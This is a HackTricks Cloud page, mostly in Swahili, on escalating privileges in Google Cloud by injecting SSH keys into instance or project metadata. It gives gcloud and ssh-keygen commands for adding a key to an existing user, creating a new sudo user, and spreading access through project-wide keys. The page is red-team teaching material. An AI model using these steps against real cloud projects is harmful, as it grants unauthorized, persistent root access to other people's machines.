 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Mabadiliko ya metadata kwenye mfano yanaweza kusababisha **hatari kubwa za usalama ikiwa mshambuliaji atapata ruhusa zinazohitajika**.

#### **Incorporation of SSH Keys into Custom Metadata**

Katika GCP, **mifumo ya Linux** mara nyingi inatekeleza skripti kutoka [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa ili **kuangalia mara kwa mara** kiunganishi cha metadata ya mfano kwa **sasisho la funguo za umma za SSH zilizoidhinishwa**.

Hivyo, ikiwa mshambuliaji anaweza kubadilisha metadata ya kawaida, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitawekwa na **kuunganishwa kwenye mfumo wa ndani**. Funguo hiyo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliye tayari au labda kuunda mtumiaji mpya mwenye ruhusa za `sudo`**, kulingana na muundo wa funguo. Na mshambuliaji ataweza kuathiri mwenyeji.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
*   Tekeleza amri ya kuelezea mfano na metadata yake ili kupata funguo za SSH zilizopo. Sehemu inayohusiana katika matokeo itakuwa chini ya `metadata`, hasa funguo ya `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Angalia muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na alama ya nukta.
2. **Prepare a Text File for SSH Key Metadata:**
* Hifadhi maelezo ya majina ya watumiaji na funguo zao za SSH katika faili la maandiko lililo na jina `meta.txt`. Hii ni muhimu ili kuhifadhi funguo zilizopo wakati wa kuongeza mpya.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
*   Tumia amri ya `ssh-keygen` kuzalisha funguo mpya ya SSH, kuhakikisha kuwa uwanja wa maoni (`-C`) unalingana na jina la mtumiaji wa lengo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Ongeza funguo mpya ya umma kwenye `meta.txt`, ukifanana na muundo ulio katika metadata ya mfano.
4. **Update the Instance's SSH Key Metadata:**
*   Tumia metadata ya funguo za SSH iliyosasishwa kwenye mfano kwa kutumia amri ya `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Access the Instance Using the New SSH Key:**
*   Unganisha kwenye mfano kwa kutumia funguo mpya ya SSH, ukipata shell katika muktadha wa mtumiaji wa lengo (`alice` katika mfano huu).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

Ikiwa hakuna mtumiaji wa kuvutia anapatikana, inawezekana kuunda mpya ambayo itapewa ruhusa za `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine nyingi za Kijijini (VMs) katika mazingira ya wingu kwa **kutumia funguo za SSH katika kiwango cha mradi**. Njia hii inaruhusu ufikiaji wa SSH kwa mfano wowote ndani ya mradi ambao haujazuia wazi wazi funguo za SSH za mradi. Hapa kuna mwongozo wa muhtasari:

1. **Tumia Funguo za SSH katika Kiwango cha Mradi:**
*   Tumia amri `gcloud compute project-info add-metadata` kuongeza funguo za SSH kutoka `meta.txt` kwenye metadata ya mradi. Kitendo hiki kinahakikisha kwamba funguo za SSH zinatambuliwa katika VMs zote ndani ya mradi, isipokuwa VM ina chaguo la "Block project-wide SSH keys" limewezeshwa.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH kwenye Mifano kwa Kutumia Funguo za Kiwango cha Mradi:**
* Pamoja na funguo za SSH za kiwango cha mradi, unaweza SSH kwenye mfano wowote ndani ya mradi. Mifano ambayo haizuia funguo za kiwango cha mradi itakubali funguo za SSH, ikitoa ufikiaji.
* Njia moja ya moja ya SSH kwenye mfano ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii inatumia jina lako la mtumiaji wa sasa na funguo za SSH zilizowekwa katika kiwango cha mradi kujaribu ufikiaji.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
